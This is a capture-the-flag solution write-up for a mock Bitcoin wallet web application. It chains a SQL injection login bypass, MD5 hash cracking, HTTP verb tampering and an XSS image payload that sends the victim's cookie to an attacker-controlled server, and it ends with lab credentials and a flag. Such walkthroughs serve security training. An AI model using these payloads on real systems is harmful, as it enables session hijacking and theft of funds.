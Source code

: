 ## Solution

### Step 1
SQL injection in login field :

    1' or 1=1 -- -

Look at "set-cookie" in F12-Network on the login page loaded. Users database appears.

Crack all md5 password with your favorite tool (like John TheRipper). Only one is a weak password.

For the user "Alice", you find "azertyuiop".


### Step 2
Fuzzing to find the path "/security".
 
Connect to /security url. 

This path is only accessible with a POST request. 

Use HTTP verb tempering to modify the GET request on 
POST request (F12-Network, use Modify and resend to change GET into POST). 

You can see the authentification code in the response page.

Connect the login page with Alice:azertyuiop and the previous authentification code.

### Step 3
Alice has only 299.56138€. 

In Ledger, you see that the wallet "3MVLdLUTDx6qQHd9wwTnr5it1aoqwzMnjR" make many operations in XBT (Bitcoin).

Make a withdraw request to this wallet with any kind of amount but use the XSS flaw to inject javascript code and steal this owner cookie.

    <img src="test.jpg" onerror="this.src=`http://@serveur/cookie?=`+document.cookie;">

Connect to Bob with the stolen cookie. Bob has 0.33 (3374.70€) BTX.


### Step 4
Connect to Pirateirb:Zeaz9M97 to know your wallet number (don't forget the double authentification number).

Connect to Bob with the stolen cookie.

Make a deposit from Bob account to your own wallet with the maximum of XBT.

    Flag : 48294e0ba97e1ff2b23ba6357c1b9880a3f600459ef89cd58013571b47e58797


